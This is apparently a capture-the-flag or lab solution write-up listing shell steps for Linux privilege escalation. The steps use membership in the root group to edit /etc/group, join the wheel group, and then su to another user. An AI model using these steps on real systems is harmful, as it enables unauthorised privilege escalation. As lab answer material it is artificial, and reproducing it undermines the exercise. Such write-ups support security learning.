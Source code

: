 # solution
- `cat /etc/pam.d/su` shows that the `wheel` group is required to use `su`:   
```
# Uncomment the following line to require a user to be in the "wheel" group.
auth          required        pam_wheel.so use_uid
```
- find that the user also belongs to the group `root`
- `newgrp root` to change the group to `root`
- `find / -type f -perm /g=w | grep -v /proc` to find files that group-writable, for group `root``
- The output shows `/etc/group` which is interesting.
- `vi /etc/group` to add `minion` to the `wheel` group.
- `su - boss` to become the user `boss`
- run the script: `. /home/boss/lockdown.sh`